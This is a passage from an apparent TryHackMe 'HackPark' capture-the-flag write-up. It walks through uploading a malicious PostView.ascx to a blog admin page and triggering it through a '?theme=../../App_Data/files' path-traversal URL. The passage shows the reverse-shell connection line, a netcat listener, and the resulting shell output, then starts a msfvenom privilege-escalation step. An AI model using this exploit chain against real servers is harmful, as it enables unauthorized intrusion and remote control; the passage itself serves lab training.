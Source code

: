 Important bits - 

    Note that this file must be uploaded as PostView.ascx. Once uploaded, the file will be in the /App_Data/files directory off of the document root. The admin page that allows upload is:
    `http://10.10.10.10/admin/app/editor/editpost.cshtml`
    Finally, the vulnerability is triggered by accessing the base URL for the blog with a theme override specified like so: `http://10.10.10.10/?theme=../../App_Data/files`

To exploit this:

1. Edit the file to include your IP Address and Port:
   
        using(System.Net.Sockets.TcpClient client = new System.Net.Sockets.TcpClient("10.8.82.167", 4444)) {

2. Rename the file to PostView.ascx
3. Log in as admin on the login page.
4. Go to the editpost.cshtml page above (with the correct IP address of the box).
5. Click on the folder icon, Upload the PostView.ascx file. You don't need to create the page or anything, just upload it.
6. Start up a netcat listener on your terminal, port 4444 (or the one specified in your PostView.ascx file).
7. Go to the second url (`http://10.10.10.10/?theme=../../App_Data/files`) on your browser.

On the Terminal:

    ┌─[user@parrot]─[~/labs/tryhackme/hackpark]
    └──╼ $nc -lvnp 4444
    listening on [any] 4444 ...
    connect to [10.8.82.167] from (UNKNOWN) [10.10.96.44] 49265
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.
    whoami
    c:\windows\system32\inetsrv>whoami
    iis apppool\blog

The webserver is running as: `iis apppool\blog`.


## [Task 4] Windows Privilege Escalation

In this task we will learn about the basics of Windows Privilege Escalation.

First we will pivot from netcat to a meterpreter session and use this to enumerate the machine to identify potential vulnerabilities. We will then use this gathered information to exploit the system and become the Administrator.

### 1

*Our netcat session is a little unstable, so lets generate another reverse shell using msfvenom. If you don't know how to do this, I suggest completing the Metasploit room first! Tip: You can generate the reverse-shell payload using msfvenom, upload it using your current netcat session and execute it manually!*

First create the payload using msfvenom:
